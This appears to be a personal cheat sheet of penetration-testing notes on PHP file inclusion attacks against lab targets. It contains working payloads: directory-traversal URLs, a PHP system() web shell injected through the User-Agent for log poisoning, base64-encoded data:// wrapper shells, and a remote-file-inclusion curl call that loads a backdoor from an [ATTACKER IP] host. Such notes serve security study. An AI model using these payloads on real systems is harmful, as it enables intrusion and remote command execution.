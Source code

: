 # File Inclusion

Execute local or remote files (while directory traversal only allows us to read the contents of a file).







## Local File Inclusion (LFI)
occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common example is when an application uses the path to a file as input. If the application treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code execution as well.

Example LFI: `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

















### Log Poisoning

- Linux: /var/log/apache2/access.log
- Windows: /xampp/apache/logs/access.log

- <?php echo system($_GET['cmd']); ?>


```
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```




Once we have achieved command execution on the target system and can leverage this to get a reverse shell or add our SSH key to the authorized_keys file for a user.










### PHP Wrappers

This is a handy technique that may help us bypass basic filters. However, we need to be aware that the `data://` wrapper will not work in a default PHP installation. To exploit it, the `allow_url_include` setting needs to be enabled.





`php://filter` wrapper can be used to include the contents of a file.
`convert.base64-encode` converts the specified resource to a base64 string.

Example:
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64- 
encode/resource=admin.php
```
Then use `base64 -d` to decode the encoded data.






`data://` wrapper to achieve code execution.
This wrapper is used to EMBED DATA ELEMENTS AS PLAINTEXT OR BASE64-ENCODED DATA IN THE RUNNING WEB APPLICATION’S CODE. This offers an alternative method when we cannot poison a local file with PHP code.

Example:
```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20sy stem('ls');?>"
```

When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the `data://` wrapper with `base64-encoded` data. We'll first encode the PHP snippet into `base64`, then use curl to embed and execute it via the `data://` wrapper.

```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
# Output: PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

curl 
"http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZW
 NobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

















## Remote File Inclusion (RFI)
Is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc

Example RFI: `http://unika.htb/index.php?page=//10.10.14.6/somefile`





RFI vulnerabilities are less common than LFI since the target system must be configured in a specific way. In PHP web applications, for example, the `allow_url_include` option needs to be enabled to leverage RFI (just as with the data:// wrapper case)

Common scenarios where we'll find this option enabled is when the web application
loads files or contents from remote systems e.g. libraries or application data.



Kali Linux includes several PHP webshells in the `/usr/share/webshells/php/` directory that can be used for RFI.
A webshell is a small script that provides a web-based command line interface, making it easier and more convenient to execute commands. 

To leverage an RFI vulnerability, we need to make the remote file accessible by the target system.
- `python3 -m http.server 80`
- use a publicly-accessible file, such as one from Github



```
curl "http://mountaindesserts.com/meteor/index.php?page=http://[ATTACKER IP]/simple-
backdoor.php&cmd=ls"
```





























